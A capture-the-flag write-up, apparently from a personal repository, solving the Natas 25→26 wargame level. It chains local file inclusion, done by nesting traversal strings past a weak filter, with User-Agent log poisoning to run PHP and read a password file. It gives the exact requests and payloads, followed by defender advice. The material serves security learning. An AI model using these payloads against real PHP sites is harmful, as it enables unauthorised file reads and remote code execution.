



# Natas Level 25 → 26

**Vulnerability:** Local File Inclusion (LFI) + Log Poisoning
**Difficulty:** Hard
**Tools Used:** Browser, Burp Suite, Firefox Storage Inspector
**OWASP Category:** A03:2021 – Injection
**Attack Class:** File Inclusion / Log Poisoning

---

### What the level gives you

The application allows users to select a language file using the `lang` parameter.

Source code is provided and reveals that the selected file is loaded through an include operation after some basic path sanitization.

The application also logs user-controlled User-Agent strings into a log file tied to the current PHP session.

---

### Vulnerability theory

Local File Inclusion occurs when user-controlled input influences files loaded by the application.

Although the developer attempts to remove traversal sequences (`../`), the sanitization is incomplete. Repeated traversal strings survive the replacement logic and allow arbitrary file access.

The second vulnerability is log poisoning.

User-Agent headers are written directly into application logs without sanitization. If PHP code is injected into a log file and that file is later included through the LFI vulnerability, the injected PHP executes on the server.

This transforms a file disclosure issue into remote code execution.

---

### Source code analysis

```php
if(strstr($filename,"../")){
    $filename=str_replace("../","",$filename);
}

if(file_exists($filename)){
    include($filename);
}
```

The traversal protection only performs a simple string replacement.

By repeatedly nesting traversal sequences:

```text
....//....//....//....//
```

the filter removes only matching portions and leaves a valid traversal path behind.

Logging logic:

```php
$log .= $_SERVER["HTTP_USER_AGENT"];
```

User-controlled data is written directly into logs.

This creates a log poisoning primitive.

### Approach

I first tested directory traversal using nested traversal sequences and successfully accessed `/etc/passwd`.

The source code also revealed a logging function storing User-Agent values into session-specific log files.

After identifying my PHP session ID through browser storage, I located the corresponding log file.

I injected PHP code into the User-Agent header and then used the LFI vulnerability to include the poisoned log.

The included file executed my payload and exposed the password for the next level.

### Exploitation

#### Stage 1 — Confirm LFI

```http
GET /?lang=....//....//....//....//....//etc/passwd
```

Result:

```text
root:x:0:0:root:/root:/bin/bash
...
```

#### Stage 2 — Identify session log

```text
PHPSESSID=3b3b4k9hj6ekbf98nkjf8cr5or
```

Log file:

```text
/var/www/natas/natas25/logs/natas25_3b3b4k9hj6ekbf98nkjf8cr5or.log
```

#### Stage 3 — Poison log

```http
User-Agent: <?php echo file_get_contents('/etc/natas_webpass/natas26'); ?>
```

#### Stage 4 — Include poisoned log

```http
GET /?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_<SESSION>.log
```

Result:

```text
natas26 password displayed
```

### Screenshot






### Real-world relevance

LFI combined with log poisoning is a classic escalation path frequently encountered in PHP applications.

Historically, vulnerable CMS plugins and custom web applications have allowed attackers to transform arbitrary file reads into remote code execution through access logs, application logs, or uploaded files.

This remains a common finding during web application penetration tests.

### Defender's perspective

Never construct include paths directly from user input.

Use allowlists:

```php
$languages = ["en","de"];
```

Store logs outside web-accessible directories and sanitize log entries before writing them.

Application monitoring should alert on PHP tags appearing inside log files.

### What I'd do differently

Automating log discovery with Burp Intruder would reduce manual effort when session identifiers are less predictable.